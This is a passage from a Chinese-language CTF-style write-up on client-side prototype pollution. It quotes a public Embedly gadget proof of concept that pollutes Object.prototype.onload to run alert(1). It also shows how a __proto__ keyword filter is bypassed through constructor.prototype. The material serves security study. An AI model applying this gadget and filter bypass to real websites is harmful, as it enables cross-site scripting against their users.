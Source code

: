 ```

        const panelTitle = document.createElement('h5');
        panelTitle.className = 'panel-heading';
        panelTitle.textContent = name;

        const panelData = document.createElement('p');
        panelData.className = 'panel-body';
        if(widgetData[widgetType])`{`
            panelData.textContent = widgetData[widgetType];
        `}`else`{`
            panelData.textContent = 'The widget type does not exist, make sure you spelled it right.';
        `}`

        panel.appendChild(panelTitle);
        panel.appendChild(panelData);

        widgetPanel.appendChild(panel);
    `}`
`}`;

window.onload = (_event) =&gt; `{`
    displayWidgets();
`}`;
```

很明显的原型链污染绕过，但是我们目前还不知道污染什么，我们再看回 panel 界面，发现有一行比较突兀的代码：

```
&lt;script src="https://cdn.embedly.com/widgets/platform.js"&gt;&lt;/script&gt;
```

随便搜搜我们可以在 [Embedly Cards](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/embedly.md) 找到相关原型链污染的资料：

```
&lt;script&gt;
  Object.prototype.onload = 'alert(1)'
&lt;/script&gt;

&lt;blockquote class="reddit-card" data-card-created="1603396221"&gt;
  &lt;a href="https://www.reddit.com/r/Slackers/comments/c5bfmb/xss_challenge/"&gt;XSS Challenge&lt;/a&gt;
&lt;/blockquote&gt;

&lt;script async src="https://embed.redditmedia.com/widgets/platform.js" charset="UTF-8"&gt;&lt;/script&gt;
```

所以我们就可以知道，我们需要污染`onload`属性就能有一个 XSS 了，问题就来到了如果绕过对于`__proto__`关键字的绕过，这里我们可以看到通过`constructor.protoype`来绕过这个限制，例如：

```
Object.__proto__ === Object.constructor.prototype    //true
```

